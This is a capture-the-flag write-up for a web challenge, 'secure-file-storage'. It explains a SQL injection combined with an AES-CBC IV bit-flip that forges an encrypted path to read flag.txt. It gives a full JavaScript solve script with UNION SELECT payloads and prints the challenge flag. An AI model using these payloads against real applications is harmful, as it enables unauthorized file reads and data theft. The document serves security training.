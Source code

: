# secure-file-storage

Simple SQL injection in `fetch_file_db`:
```js path="challenge/application/database.py" range="86," open
```

However this does not automatically give LFI because the filename and filepath are encrypted:
```js path="challenge/application/database.py" range="63,72" open
```
```js path="challenge/application/util.py" range="30,41" open
```

The issue with this kind of encryption (known IV, known plaintext) is that the IV is embedded directly and not verified,
so we can inject a new IV to fake the first 16 bytes of any encrypted field.

## solve script
```js filename="solve.js" open
async function inject(path, id) {
    let res = await fetch(`https://uscybercombine-s4-web-secure-file-storage.chals.io/api/files/${path}`, {
        "credentials": "include",
        "headers": {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:127.0) Gecko/20100101 Firefox/127.0",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
            "Accept-Language": "en-US,en;q=0.5",
            "Upgrade-Insecure-Requests": "1",
            "Sec-Fetch-Dest": "document",
            "Sec-Fetch-Mode": "navigate",
            "Sec-Fetch-Site": "same-origin",
            "Sec-Fetch-User": "?1",
            "Priority": "u=1",
            "Pragma": "no-cache",
            "Cache-Control": "no-cache",
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        "referrer": "https://uscybercombine-s4-web-secure-file-storage.chals.io/files",
        "method": "POST",
        "mode": "cors",
        "body": new URLSearchParams({ "file_id": id })
    });
    return await res.text();
}

async function field(id, field) {
    return JSON.parse(await inject("info", `2 UNION SELECT null, 3, ${field}, filename, filepath FROM File WHERE id = ${id}`)).message.file;
}

function pad(string) {
    let padding = 16 - string.length % 16;
    for (let i = string.length; i < 16; i++) {
        string += String.fromCharCode(padding);
    }
    return string;
}

var file = await field(392, "filename");
console.log(file);
var filename = atob(file.title);
var iv = filename.slice(0, 16);
var enc = filename.slice(16);
var padded = pad(file.filename);
var niv = Array.from("/".repeat(8) + "flag.txt")
    .map((ch, i) => iv.charCodeAt(i) ^ padded.charCodeAt(i) ^ ch.charCodeAt(0))
    .map(ch => String.fromCharCode(ch))
    .join("");
var fake = btoa(niv + enc);
var flag = await inject("download", `2 UNION SELECT null, 3, 'FAKE', '${fake}', filepath FROM file WHERE id = 392`);
console.log(flag); 
```
I was lazy so it is meant to run in the browser console.

## flag: `SIVUSCG{b1t_fl1pp3d_f1l3s}`